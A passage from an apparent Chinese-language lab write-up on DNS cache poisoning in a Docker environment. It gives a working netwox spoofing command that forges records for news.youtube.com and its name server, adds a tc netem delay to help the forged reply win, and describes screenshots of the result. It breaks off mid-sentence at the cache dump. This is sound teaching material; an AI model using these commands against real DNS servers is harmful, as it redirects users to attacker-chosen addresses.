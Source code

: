 此时返回的结果与真实结果一致。
  
说明攻击的确实是DNS的用户响应，不影响DNS服务器的正常请求。

#### netwox实施DNS的缓存中毒攻击

在攻击机上运行：

```bash
sudo netwox 105 -h "news.youtube.com" -H "101.102.103.104" -a "ns.youtube.com" -A "55.66.77.88" --filter "src host 10.10.10.2" --device "br-29c63b220f5a" --spoofip "raw" --ttl 600

```

意思是设置DNS响应包域名news.youtube.com对应IP地址为101.102.103.104，权威名称服务器ns.youtube.com对应的IP地址为55.66.77.88。

攻击的是DNS服务器的缓存，ttl生存时间代表缓存留存在DNS服务器上的时间600（秒）。spoofip参数选择raw，否则netwox将对被欺骗的IP地址也进行MAC地址欺骗，因为ARP查询响应的等待时间问题，实验有可能失败。

> 实际上，就算加了参数，在docker上做实验，但是在三台虚拟主机上做实验就必成功（亲测），还是有
> **很大的可能失败**
> 。
>
> 以下是难得成功的一次截图。

1. 首先清空DNS缓存：

   ```bash
   sudo rndc flush

   ```
2. 为了提高攻击的成功率，添加对外访问的时延如下（其实就是DNS服务器对外访问慢一点，保证它优先收到攻击机的回应）：

   ```bash
   sudo tc qdisc add dev br-29c63b220f5a root netem delay 1s

   ```
3. 运行攻击命令，用
   `dig news.youtube.com`
   触发：

   ![](https://i-blog.csdnimg.cn/blog_migrate/5c76fea54080ad810f23a0773a422109.png)

   观察到，攻击机成功嗅探到DNS服务器向上发出的DNS请求包，并伪造上层DNS服务器向其发送回复报文。

   在user上dig指令的结果：

   ![](https://i-blog.csdnimg.cn/blog_migrate/a3c3060a9baa8c52a19cb066e227065a.png)

   观察到IP地址、权威域名服务器地址被修改成期望的地址。

   同时用Wireshark抓包，得到如下结果：

   ![](https://i-blog.csdnimg.cn/blog_migrate/0f4ff1d8cba69e513127b15b09507bdb.png)

   观察到，攻击机比真实DNS服务器提前一步发送DNS响应，从而导致DNS缓存中毒。

   转储并查看DNS服务器缓存，如下：
